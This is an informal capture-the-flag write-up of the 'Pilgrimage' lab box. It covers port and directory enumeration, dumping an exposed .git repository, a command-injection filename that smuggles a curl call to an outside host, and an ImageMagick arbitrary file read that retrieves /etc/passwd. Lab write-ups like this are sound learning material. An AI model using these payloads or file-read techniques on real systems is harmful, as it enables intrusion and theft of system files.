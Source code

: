 ### inital enumeration

nmap results

Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


it has a website

![](20230722182338.png)

it has a register page

its php

so lets go dirb, gobuster

gobuster dir --url http://pilgrimage.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://pilgrimage.htb -t 50 --append-domain

nothing on the subdomain enumeration

### content upload

all shrunk pictures come on the dashboard

where pictures are stored bu there is no lfi here

![](20230722183802.png)

lets try and load a php webshell
there is content restriction it seems

php change did not work


tried to forge  php shell across

![](20230722185519.png)


### other things on website?

and there are other pathways available

/index.php            (Status: 200) [Size: 7621]
/.html                (Status: 403) [Size: 153]
/login.php            (Status: 200) [Size: 6166]
/register.php         (Status: 200) [Size: 6173]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> /]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> /login.php]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]

but all of them are forbidden now

### git

also just through drib found that .git repo is also available here

![](20230722184304.png)

but HEAD does not mention much

pip install git-dumper

git-dumper URL DIR

using git-dumper.py

was able to get the source code of the entire thing!

now need to go thorugh the code of the github

emily@pilgrimage.htb>

`exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);

`
this is the function calling it

can we add something in the name itself to make it execute?

"new|curl http://10.10.16.47:8000/iamcurling;".png

![](20230723101916.png)


IMageMagick library has an arbitrary file read vulnerability

and rce .

tested rce did not work

let check out arbitrary file read

after using the magick_exploit.py get the resultant file and usin 

convert downloaded_image.png result.png

identify -verbose result.png

(~)>>> python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin




